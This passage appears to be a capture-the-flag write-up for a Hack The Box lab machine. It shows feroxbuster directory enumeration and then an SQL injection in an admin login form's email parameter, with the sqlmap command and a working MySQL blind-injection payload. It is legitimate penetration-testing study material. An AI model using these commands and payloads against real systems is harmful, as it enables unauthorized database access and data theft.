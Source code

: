 - `feroxbuster`
```
└─$ feroxbuster -u http://europacorp.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://europacorp.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://europacorp.htb/icons/ubuntu-logo.png
200      GET      421l     1049w    12455c http://europacorp.htb/

```

## Foothold/User
- We can trigger `sql` error on `https://admin-portal.europacorp.htb/login.php` by setting `email` parameter to `'` 

![](./images/4.png)

- We can use `sqlmap` to dump the database
```
└─$ sqlmap -r sqli.req --batch --force-ssl
...
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 346 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=admin' RLIKE (SELECT (CASE WHEN (8085=8085) THEN 0x61646d696e ELSE 0x28 END))-- TKjM&password=admin&remember=Remember Me

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
```
